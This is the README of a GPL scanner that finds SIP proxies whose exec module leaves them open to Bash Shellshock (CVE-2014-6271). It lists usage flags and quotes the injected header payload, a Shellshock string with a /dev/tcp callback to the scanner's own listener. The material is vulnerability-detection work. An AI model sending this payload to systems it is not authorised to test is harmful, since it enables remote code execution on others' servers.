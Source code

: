 ### A scanner for SIP proxies vulnerable to Shellshock
---

#### Usage:
sipshock [ Flags ] [ IP Addresses ]

#### Usage flags:
- listen : Local listening address
- lport  : Local listening port (default 10111)
- rport  : Remote port (default 5060)

The exec module in Kamailio, Opensips and propably every other SER fork
passes the received SIP headers as environment viarables to the invoking shell.
This makes these SIP proxies vulnerable to CVE-2014-6271 (Bash Shellshock).
If a proxy is using any of the exec funtions and has the 'setvars' parameter set to the default value '1'
then by sending SIP message containing a specially crafted header we can run arbitrary code on the
proxy machine.

Sipshock tries to detect such vulnerable proxies by sending SIP INVITE Messages
containing the following header: "X-Ploit: () { :;};exec >/dev/tcp/xx.xx.xx.xx/yy"
where xx.xx.xx.xx/yy is the local IP and port that sipshock listens to.
A vulnerable server will invoke a shell that will execute the code above and
open a tcp connection to xx.xx.xx.xx:yy. Sipshock detects the connection and
lists the server as vulnerable.

This program is free software, distributed under the terms of
the GNU General Public License Version 3. See the LICENSE file
at the top of the source tree.

